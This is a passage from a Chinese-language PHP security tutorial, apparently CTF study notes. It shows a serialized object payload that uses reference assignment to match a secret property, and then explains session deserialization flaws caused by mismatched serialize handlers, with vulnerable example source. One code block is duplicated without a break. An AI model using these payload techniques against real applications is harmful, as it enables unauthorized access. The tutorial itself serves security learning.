 ### payload构造

```php
<?php
include("flag.php");
class just4fun {
    var $enter;
    var $secret;
}

$j = new just4fun();
# 引用传值
$j->enter = &$j->secret;
echo serialize($j);<?php
include("flag.php");
class just4fun {
    var $enter;
    var $secret;
}

$j = new just4fun();
# 引用传值
$j->enter = &$j->secret;
echo serialize($j);
```

==输出==

```
O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```

## 13.17 session反序列化漏洞介绍

当`session_start()`被调用者或者`php.ini`中`session.auto_start`为1时2，PHP内部调用会话管理器，访问用户session被序列化以后，存储到指定目录

**_漏洞产生：写入格式和读取格式不一致_**

| 处理器                    | 对应的存储格式                                               |
| ------------------------- | ------------------------------------------------------------ |
| php                       | 键名 + 竖线 + 经过 `serialize()`函数序列化处理的值（`benben|s:6:"123456"`） |
| php_serialize(php>=5.5.4) | 经过`serialize()`函数序列化处理的数组                        |
| php_binary                | 键名的长度对应的ASCII字符 + 键名 + 经过`serialize()`函数反序列化处理的值 |

### 例题源码

```php
# cookie提交处
<?php
highlight_file(__FILE__);
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['ben'] = $_GET['a'];
?>

# 漏洞触发处
<?php 
highlight_file(__FILE__);
error_reporting(0);

ini_set('session.serialize_handler','php');
session_start();

```